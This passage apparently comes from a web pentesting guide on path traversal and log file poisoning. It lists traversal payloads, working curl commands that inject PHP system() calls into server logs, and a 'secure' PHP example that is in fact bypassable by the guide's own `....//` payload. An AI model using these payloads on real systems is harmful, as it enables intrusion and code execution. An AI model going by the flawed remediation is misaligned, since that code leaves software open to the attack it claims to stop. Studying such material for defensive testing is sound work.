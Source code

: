 3. Test filter bypass:
   - Try: `....//config.php` or `%c0%afetc/passwd`.
4. Use Burp Intruder:
   - Test multiple traversal depths (e.g., `../`, `../../`, `../../../`).

**Example Vulnerable Code (PHP)**:
```php
$file = $_GET['file'];
readfile($file);
```
Test: `?file=../config.php`
Result: Displays `config.php`.

**Example Secure Code (PHP)**:
```php
$file = str_replace('../', '', $_GET['file']);
if (file_exists("pages/$file")) {
    readfile("pages/$file");
} else {
    die("File not found");
}
```
Test: No access.

**Remediation**:
- Normalize paths:
  ```php
  $file = realpath($file);
  ```
- Restrict directory access:
  ```php
  if (strpos($file, '/etc/') !== false) die("Access denied");
  ```

**Tip**: Save traversal evidence in a report.

### 6. Test for Log File Poisoning

**Objective**: Exploit LFI vulnerabilities by injecting malicious code into server log files and including them to achieve code execution.

**Steps**:
1. Confirm LFI vulnerability (e.g., `?file=../../etc/passwd` works).
2. Inject malicious code into logs:
   - Send a request with a malicious User-Agent:
     ```bash
     curl -H "User-Agent: <?php system('whoami'); ?>" "http://example.com/"
     ```
   - Alternatively, inject via URL parameters if logged:
     ```bash
     curl "http://example.com/?cmd=<?php system('id'); ?>"
     ```
3. Include the log file:
   - Use Burp:
     ```http
     GET /page?file=../../var/log/apache2/access.log HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/page?file=../../var/log/apache2/access.log"
     ```
4. Check responses for command output (e.g., `www-data`).
